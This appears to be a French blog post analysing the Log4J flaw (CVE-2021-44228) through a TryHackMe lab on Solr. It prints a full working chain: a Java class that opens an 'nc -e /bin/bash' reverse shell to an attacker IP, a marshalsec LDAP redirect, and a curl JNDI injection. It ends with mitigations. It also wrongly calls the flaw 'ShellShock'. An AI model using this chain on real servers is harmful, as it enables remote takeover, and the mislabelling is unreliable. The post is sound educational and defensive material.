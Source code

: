 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Diclaimer

Cet article vise à expliquer la faille de sécurite ShellShock, en aucun cas les explications données doivent être utilisées dans le but de causer des dommages à un quelconque système. Toutes les informations sont données à but de pédagogie ou de défense.

# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel du monde cyber pour avoir entendu parler de cette faille qui a créé quelques sueurs froides ces derniers jours.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10 !) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4J.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine vulnérable sur TryHackMe.

Voici un bref récapitulatif de l'attaque : 

![draw (1)](https://user-images.githubusercontent.com/16634117/145877226-310dc164-e164-4cbb-9065-1027ad80f0d2.jpg)


# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la gestion de logs. Pour cette attaque, je me base sur l'application Solr, qui utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que l'application Log4J est présente dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça, il faut trouver un point d'injection. Le plus simple est de jeter un œil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées ; l'url, mais également **les paramètres**. (C'est sur ce point que l'exploit peut changer, suivant la journalisation en place, il existera des points d'injections différents : paramètres, headers HTTP, etc.)

Pour identifier la vulnérabilité du système, j'injecte un paramètre GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`${jndi:ldap://<IP>:<PORT>}`

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)
_L'injection, avec un listener pour récupérer la connexion, permettant de vérifier la bonne exécution de la charge utile_

Une connexion s'effectue bien entre notre machine et le serveur, **ce dernier est donc vulnérable**.

# Exploitation

Nous avons vu dans la partie précédente que l'application est vulnérable, mais, pour le moment, aucune execution de code sur le serveur n'est réalisée. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de [JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface) va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux (possédé par l'attaquant) et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer une connexion shell, pour ça la classe Java suivante est suffisante : 

```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.65.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

On utilise le software [Marshalsec](https://github.com/mbechler/marshalsec) qui permet de créer un serveur LDAP et de rediriger le trafic.

La commande suivante va créer le serveur et rediriger vers notre code malveillant :

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.65.176:8000/#Exploit"`


![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut un serveur capable de répondre avec notre charge malveillante, un simple `python3 -m http.server` à la racine de notre payload fera l'affaire.

Pour récupérer le shell il faut ouvrir une connexion au niveau de la machine d'attaque :

`nc -lnvp 9999`

Tous les éléments sont en place. 

Une requête avec l'injection va déclencher toute la chaîne d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`

Une fois cela fait :

![image](https://user-images.githubusercontent.com/16634117/145872643-ec39c7ca-e33d-4b34-8c31-a6b2ed397b09.png)
_De gauche à droite puis de haut en bas : la requête malveillante, le serveur LDAP redirigeant le traffic, le serveur Python répondant avec le code compilé, le reverse shell_

On obtient bien un accès en shell au serveur, par la suite il est possible de continuer une chaîne classique d'attaque pour gagner en privilèges et corrompre une plus grande partie du système.

# Conclusion et réponse

Cette faille touche un grand nombre de système, et il y a de fortes chances que vos systèmes en fassent partie, pour vous les solutions sont les suivantes : 

* Mettre à jour Log4J,
* Désactiver le lookup JDNI.

Une liste non exhaustive des applications touchées est disponible ici : https://github.com/NCSC-NL/log4shell/blob/main/software/README.md



